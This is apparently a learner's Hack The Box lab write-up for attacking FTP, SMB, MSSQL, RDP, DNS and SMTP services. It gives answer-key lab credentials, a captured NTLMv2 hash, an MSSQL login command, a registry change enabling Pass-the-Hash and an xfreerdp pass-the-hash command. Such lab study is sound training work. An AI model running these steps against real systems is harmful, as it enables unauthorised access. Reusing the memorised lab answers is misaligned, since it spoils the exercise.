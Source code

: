 # ⚙ Attacking common services

## Assessment

### FTP

What username is available for the FTP server?

* I used the wordlist from ftp **anonymous** and get the username and password list.

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### SMB

What is the name of the shared folder with READ permissions?

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption><p>GGJ</p></figcaption></figure>

What is the password for the username "jason"?

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption><p>MAKE SURE TO RUN WITH --local-auth</p></figcaption></figure>

Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### SQL DB

What is the password for the "mssqlsvc" user?

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

`mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:5a04b004fa4e9d85f6186628bbb5f628:0101000000000000800f5b3cd1a9d9013832986d3a5b90e8000000000100100045006c0046004800450079006a0061000300100045006c0046004800450079006a006100020010006d007100780051006100480062004900040010006d00710078005100610048006200490007000800800f5b3cd1a9d90106000400020000000800300030000000000000000000000000300000205c323361b6fee9491d3dade42cd1a0ade509215af472deb6f497f224759ddc0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000`

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Enumerate the "flagDB" database and submit a flag as your answer.

```
impacket-mssqlclient 'mssqlsvc:princess1@10.129.203.12' -windows-auth
```

* Then explored the flagDB and got the hash.

### RDP

{% hint style="success" %}
RDP to target with username "`htb-rdp`" and password "`HTBRocks!`"
{% endhint %}

What is the name of the file that was left on the Desktop? (Format example: filename.txt)

* `pentest-notes.txt`

Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

* `DisableRestrictedAdmin`

Connect via RDP with the Administrator account and submit the flag.txt as you answer.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption><p>Administrator:0E14B9D6330BF16C30B1924111104824</p></figcaption></figure>

1. `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
2. `xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution`
3. ![](<../../.gitbook/assets/image (8).png>)

### DNS

Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

* used subbrute to enum the subdomain.
* found hr.inlanefreight.htb.
* performed dns zone transfer on hr.inalnefreight.htb.
* got the flag.

### EMAIL

What is the available username for the domain inlanefreight.htb in the SMTP server?

* ```shell-session
  smtp-user-enum -M RCPT -U ../users.list -D inlanefreight.htb -t 10.129.203.12
  ```

Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption><p>marlin@inlanefreight.htb:poohbear</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

